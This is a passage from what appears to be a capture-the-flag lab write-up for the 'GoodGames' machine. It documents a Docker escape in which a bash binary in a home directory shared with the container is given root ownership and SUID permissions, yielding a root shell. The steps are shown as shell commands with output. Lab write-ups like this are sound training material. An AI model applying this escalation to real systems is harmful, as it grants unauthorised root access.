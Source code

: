 ```bash
6: veth05d6236    inet6 fe80::34ad:bcff:fefb:32b2/64 scope link \       valid_lft forever preferred_lft forever

augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:fe94:5b3b 
```

- The shell is the GoodGames host itself

---

## Privilege Escalation

### Docker Escape

- Docker is in the process list, confirming the app is hosted within a Docker container

```bash
augustus@GoodGames:~$ ps aux | grep docker
root       866  0.0  2.0 1457176 84484 ?       Ssl  21:14   0:01 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1324  0.0  0.2 1148904 11688 ?       Sl   21:14   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
```

### Shell as root

- The `augustus` home contains the same files as inside the container
- Files can be written in the host and change their permissions to root within the container, reflecting the permissions on the host system as well

Copy host's `bash` binary to the user's directory and exit the SSH session

- The `bash` binary must be **the one from the host**, not from the container (which uses an older library)

```bash
# On Host
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
```

Apply `SUID` permissions and change the ownership of the `bash` executable to `root:root` from within the Docker container

```bash
# On Container
root@3a453ab39d3d:/backend# cd /home/augustus/

root@3a453ab39d3d:/home/augustus# ls -lh bash
-rwsr-xr-x 1 root root 1.2M Jul  6 22:12 bash

root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
```
